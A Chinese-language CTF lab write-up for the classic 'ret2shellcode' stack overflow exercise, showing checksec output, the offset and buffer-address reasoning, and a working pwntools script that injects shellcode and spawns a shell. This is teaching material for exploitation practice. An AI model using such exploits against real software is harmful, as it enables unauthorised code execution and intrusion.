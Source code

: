 # ret2shellcode



# 查看文件保护

```
[root@localhost pwn]# checksec ret2shellcode
[*] '/root/pwn/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
[root@localhost pwn]# checkfile ret2shellcode
Error: No option selected. Please select an option.

[root@localhost pwn]# checkfile --file=ret2shellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   79 Symbols	  No	0		3		ret2shellcode
```

![image-20231109174542454](images/ret2shellcode.assets/image-20231109174542454.png)



# gef vmmap查看可读可写可执行区域

![image-20231109174616256](images/ret2shellcode.assets/image-20231109174616256.png)



## ida查看C代码

![image-20231109193921711](images/ret2shellcode.assets/image-20231109193921711.png)



## 思路

- 使用gets函数，存在栈溢出漏洞，可以覆盖返回地址。
- 会将输入的内容复制到buf2，而buf2可读可写可执行。
- gets输入的内容，先给shellcode，在填充剩余的内容，最后覆盖返回地址为buf2首地址。



## 查看汇编计算地址

![image-20231109194236129](images/ret2shellcode.assets/image-20231109194236129.png)



## 总结

buf2首地址：0x804a080

s地址到返回地址字节数：112字节

覆盖内容为：shellcode，剩余部分到返回地址用重复'A'填充，buf2首地址



## 构造payload

```python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
target_addr = 0x804a080

distance = 112

payload = shellcode + b'A' * (distance - len(shellcode)) + p32(target_addr)

sh.sendline(payload)
sh.interactive()
```



## 效果

![image-20231109194543021](images/ret2shellcode.assets/image-20231109194543021.png)

